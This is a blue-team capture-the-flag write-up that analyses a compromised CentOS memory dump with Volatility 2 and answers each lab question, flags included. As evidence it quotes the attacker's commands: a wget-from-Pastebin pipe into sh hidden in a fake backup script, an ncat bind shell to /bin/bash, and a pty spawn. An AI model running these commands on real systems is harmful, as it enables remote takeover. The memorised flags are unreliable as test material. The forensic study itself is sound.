

# Seized Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
  * [Volatility 2 Linux Memory Forensics 101](#volatility-2-linux-memory-forensics-101)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/seized/](https://cyberdefenders.org/blueteam-ctf-challenges/seized/)

Suggested tools: Volatility, CyberChef, grep

Tactics: Execution, Persistence, Privilege Escalation, Defense Evasion, Command and Control

# Scenario

Using Volatility, utilize your memory analysis skills as a security blue team analyst to investigate the provided Linux memory snapshots and figure out attack details.

**Instructions:**

- Use the [latest version of Volatility](https://github.com/volatilityfoundation/volatility), place the attached Volatility profile "**Centos7.3.10.1062.zip**" in the following path: *volatility/volatility/plugins/overlays/linux*.

# Questions

Q1- What is the CentOS version installed on the machine?

Answer: `7.7.1908`

Reason: Memory forensic analysis of `dump.mem` confirmed the host as a CentOS 7 system running kernel `3.10.0-1062.el7.x86_64` (built `2019-08-07`), extracted via the Volatility 2 `linux_banner` plugin against the custom `LinuxCentos7_3_10_1062x64` profile. Because the kernel banner reflects only the compiled kernel build number and not the distro's marketing point release, the build number `1062` was cross-referenced against the public CentOS 7 release history, identifying it as corresponding to the `7.7.1908` point release published `2019-09-17`.

```bash
$ python2 /home/kali/tools/volatility2/vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_banner
Volatility Foundation Volatility Framework 2.6.1
Linux version 3.10.0-1062.el7.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-36) (GCC) ) #1 SMP Wed Aug 7 18:08:02 UTC 2019
```



Q2- There is a command containing a strange message in the bash history. Will you be able to read it?

Answer: `shkCTF{l3ts_st4rt_th3_1nv3st_75cc55476f3dfe1629ac60}`

Reason: Analysis of shell activity in `dump.mem` via the Volatility 2 `linux_bash` plugin recovered bash history for PID `2622`, showing the attacker navigating to `Documents/` at `2020-05-07 14:56:16 UTC` and, one second later, writing a Base64-encoded string to `y0ush0uldr34dth1s.txt` using `echo`. Decoding the Base64 payload (`c2hrQ1RGe2wzdHNfc3Q0cnRfdGgzXzFudjNzdF83NWNjNTU0NzZmM2RmZTE2MjlhYzYwfQo=`) with `base64 -d` revealed the plaintext flag embedded in the command history.

```bash
$ python2 /home/kali/tools/volatility2/vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_bash
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    2622 bash                 2020-05-07 14:56:16 UTC+0000   cd Documents/
    2622 bash                 2020-05-07 14:56:17 UTC+0000   echo "c2hrQ1RGe2wzdHNfc3Q0cnRfdGgzXzFudjNzdF83NWNjNTU0NzZmM2RmZTE2MjlhYzYwfQo=" > y0ush0uldr34dth1s.txt

$ echo "c2hrQ1RGe2wzdHNfc3Q0cnRfdGgzXzFudjNzdF83NWNjNTU0NzZmM2RmZTE2MjlhYzYwfQo=" | base64 -d
shkCTF{l3ts_st4rt_th3_1nv3st_75cc55476f3dfe1629ac60}
```

Q3- What is the PID of the suspicious process? Please enter a numeric answer.

Answer: `2854`

Reason: Process tree analysis via the Volatility 2 `linux_pstree` plugin identified a suspicious process disguising itself with a leading-dot filename, `.ncat`, running under PID `2854`. `ncat` is a Netcat variant commonly used for establishing reverse shells or arbitrary network listeners/connections, and the dot-prefix naming is a common Linux technique to hide the binary from default `ls` output, indicating deliberate concealment consistent with attacker tooling.

```bash
$ python2 /home/kali/tools/volatility2/vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_pstree | grep ncat
Volatility Foundation Volatility Framework 2.6.1
.ncat                2854
```

Q4- The attacker downloaded a backdoor to gain persistence. What is the hidden message in this backdoor?

Answer: `shkCTF{th4t_w4s_4_dumb_b4ckd00r_86033c19e3f39315c00dca}`

Reason: Bash history recovered via `linux_bash` showed the attacker cloning a GitHub repository, `https://github.com/tw0phi/PythonBackup\`, at `2020-05-07 14:56:25 UTC`, disguised as a legitimate backup utility. Inside the cloned repo, `snapshot.py` contained a hidden `os.system()` call that silently piped a remote script via `wget -O - <https://pastebin.com/raw/nQwMKjtZ> 2>/dev/null|sh`, executing attacker-controlled code fetched from Pastebin under the guise of "generating a snapshot." The fetched script both printed a Base64-encoded congratulatory message and established a persistent backdoor listener with `nohup ncat -lvp 12345 -4 -e /bin/bash > /dev/null 2>/dev/null &`, binding `/bin/bash` to port `12345` for remote shell access. Decoding the embedded Base64 string revealed the flag hidden in the backdoor's source.

```bash
$ python2 /home/kali/tools/volatility2/vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_bash   
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    2622 bash                 2020-05-07 14:56:16 UTC+0000   cd Documents/
    2622 bash                 2020-05-07 14:56:17 UTC+0000   echo "c2hrQ1RGe2wzdHNfc3Q0cnRfdGgzXzFudjNzdF83NWNjNTU0NzZmM2RmZTE2MjlhYzYwfQo=" > y0ush0uldr34dth1s.txt
    2622 bash                 2020-05-07 14:56:25 UTC+0000   git clone https://github.com/tw0phi/PythonBackup
```

Q5- What are the attacker's IP address and the local port on the targeted machine?

Answer: `192.168.49.1:12345`

Reason: Network socket analysis via the Volatility 2 `linux_netstat` plugin identified an established TCP connection tied to the backdoor process `ncat` (PID `2854`), showing the victim host `192.168.49.135` listening on local port `:12345` (the port bound by the earlier `ncat -lvp 12345 -e /bin/bash` persistence command) with an active connection from remote attacker IP `192.168.49.1` on ephemeral source port `:44122`, confirming the attacker had a live, established reverse-shell-style connection into the backdoor at the time of memory capture.

```bash
$ python2 /home/kali/tools/volatility2/vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_netstat | grep ncat
Volatility Foundation Volatility Framework 2.6.1
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  ncat/2854 
```

Q6- What is the first command that the attacker executed?

Answer: `python -c import pty; pty.spawn("/bin/bash")`

Reason: Cross-referencing the process tree from `linux_pstree` (showing `.ncat` at PID `2854` spawning `..bash` at PID `2876`, which spawned `...python` at PID `2886`) with full command-line arguments from `linux_psaux` revealed that PID `2886` was invoked as `python -c import pty; pty.spawn("/bin/bash")`. This is a well-known PTY upgrade technique used to convert a raw, non-interactive reverse shell (established via the `ncat -e /bin/bash` backdoor) into a fully interactive TTY session, making it the first command the attacker executed after gaining shell access.

```bash
$ python2 /home/kali/tools/volatility2/vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_pstree | grep ncat -C 5
Volatility Foundation Volatility Framework 2.6.1      
.ncat                2854                           
..bash               2876                           
...python            2886                           
....bash             2887                           
.....vim             3196     

$ python2 /home/kali/tools/volatility2/vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_psaux | grep 2886
Volatility Foundation Volatility Framework 2.6.1
2886   0      0      python -c import pty; pty.spawn("/bin/bash") 
```

Q7- After changing the user password, we found that the attacker still has access. Can you find out how?

Answer: `shkCTF{rc.l0c4l_1s_funny_be2472cfaeed467ec9cab5b5a38e5fa0}`

Reason: To determine how the attacker retained access after a password change, memory belonging to PID `2887` (the second `bash` process in the attack chain) was dumped via `linux_dump_map --pid 2887 -D 2887/`, and strings were extracted with `strings 2887/* > 2887/strings.txt`. Grepping the output for `echo` surfaced a Base64-encoded string embedded near shell scripting artifacts, decoding to a flag referencing `rc.local`, indicating the attacker had appended a persistence mechanism to `/etc/rc.local` — a legacy init script that executes automatically at boot with root privileges, independent of any user account or password. This explains continued access even after the compromised user's password was reset, since the backdoor re-establishes itself on every system boot rather than relying on stored credentials.

```bash
$ vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_dump_map --pid 2887 -D 2887/

$ ll 2887 
total 116864
-rw-rw-r-- 1 kali kali    909312 Jul 25 19:35 task.2887.0x400000.vma
-rw-rw-r-- 1 kali kali      4096 Jul 25 19:35 task.2887.0x6dd000.vma
-rw-rw-r-- 1 kali kali     36864 Jul 25 19:35 task.2887.0x6de000.vma
-rw-rw-r-- 1 kali kali     24576 Jul 25 19:35 task.2887.0x6e7000.vma
-rw-rw-r-- 1 kali kali     49152 Jul 25 19:35 task.2887.0x7f67310cc000.vma
<SNIP>

$ strings 2887/* > 2887/strings.txt
$ cat 2887/strings.txt | grep echo -B 5 -A 5
```

Q8- What is the name of the rootkit that the attacker used?

Answer: `sysemptyrect`

Reason: Syscall table integrity analysis via the Volatility 2 `linux_check_syscall` plugin, which compares the in-memory syscall table against expected kernel addresses to detect hooking, revealed that 64-bit syscall `88` had been redirected to `0xffffffffc0a12470`, resolving to the symbol `sysemptyrect/syscall_callback`. This confirms the presence of a kernel-mode rootkit named `sysemptyrect` that hijacked a syscall table entry to intercept and manipulate kernel-level behavior, a defense-evasion technique enabling it to hide processes, files, or network connections from standard userspace tools.

Q9- The rootkit uses crc65 encryption. What is the key?

Answer: `1337tibbartibbar`

Reason: Loaded kernel module inspection via `linux_lsmod -P`, which lists kernel modules along with their parameters resident in memory, revealed the `sysemptyrect` rootkit module (base address `0xffffffffc0a14020`, size `12904` bytes) with a module parameter `crc65_key=1337tibbartibbar` exposed directly in its metadata, disclosing the encryption key used by the rootkit's CRC65 obfuscation/authentication routine.

```bash
$ python2 /home/kali/tools/volatility2/vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_lsmod -P | grep sysemptyrect -C 5
Volatility Foundation Volatility Framework 2.6.1
        digest=(null)                                                                                       
        localhostonly=0                                                                                     
        format=lime                                                                                         
        dio=0                                                                                               
        path=/Linux64.mem                                                                                   
ffffffffc0a14020 sysemptyrect 12904
        crc65_key=1337tibbartibbar
```

## Volatility 2 Linux Memory Forensics 101

- **`linux_banner`** — Confirms the kernel version and build compiled into the kernel; used to verify profile match.
`python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_banner`
Output: `Linux version 3.10.0-1062.el7.x86_64 ...`
- **`linux_bash`** — Recovers in-memory bash command history per Process Identifier (PID), including still-running shells, bypassing disk-based `.bash_history`.
`python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_bash`
Output: `2622 bash 2020-05-07 14:56:25 UTC+0000 git clone hxxps://github[.]com/tw0phi/PythonBackup`
- **`linux_pstree`** — Displays parent/child process relationships as indentation depth; used to trace the disguised `.ncat` process through its descendant chain.
`python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_pstree | grep ncat -C 5`
Output: `.ncat 2854` → `..bash 2876` → `...python 2886` → `....bash 2887` → `.....vim 3196`
- **`linux_psaux`** — Reconstructs full command-line arguments (argv) for a process; reveals the exact Pseudo-Terminal (PTY) spawn command run by PID `2886`.
`python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_psaux | grep 2886`
Output: `2886 0 0 python -c import pty; pty.spawn("/bin/bash")`
- **`linux_netstat`** — Lists network sockets and connections reconstructed from kernel memory; identifies the attacker's established connection to the `ncat` backdoor.
`python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_netstat | grep ncat`
Output: `TCP 192.168.49.135:12345 192.168.49.1:44122 ESTABLISHED ncat/2854`
- **`linux_dump_map`** — Dumps a process's memory maps to disk for offline string and binary analysis; used on PID `2887` to recover `rc.local` persistence evidence.
`python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_dump_map --pid 2887 -D 2887/`
Output (via `strings 2887/* | grep echo -B5 -A5`): base64 string decoding to the `rc.local` persistence flag.
- **`linux_check_syscall`** — Compares the live syscall table against expected kernel addresses to detect syscall hooking; confirms rootkit presence.
`python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_check_syscall | grep -i hooked`
Output: `64bit 88 0xffffffffc0a12470 HOOKED: sysemptyrect/syscall_callback`
- **`linux_lsmod -P`** — Lists loaded kernel modules with runtime parameters; extracts the rootkit's `crc65_key` directly from module metadata.
`python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_lsmod -P | grep sysemptyrect -C 5`
Output: `ffffffffc0a14020 sysemptyrect 12904` with parameter `crc65_key=1337tibbartibbar`

```bash
$ python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_banner
$ python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_bash
$ python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_pstree | grep ncat -C 5
$ python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_psaux | grep 2886
$ python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_netstat | grep ncat
$ python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_dump_map --pid 2887 -D 2887/
$ python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_check_syscall | grep -i hooked
$ python2 vol.py -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_lsmod -P | grep sysemptyrect -C 5
```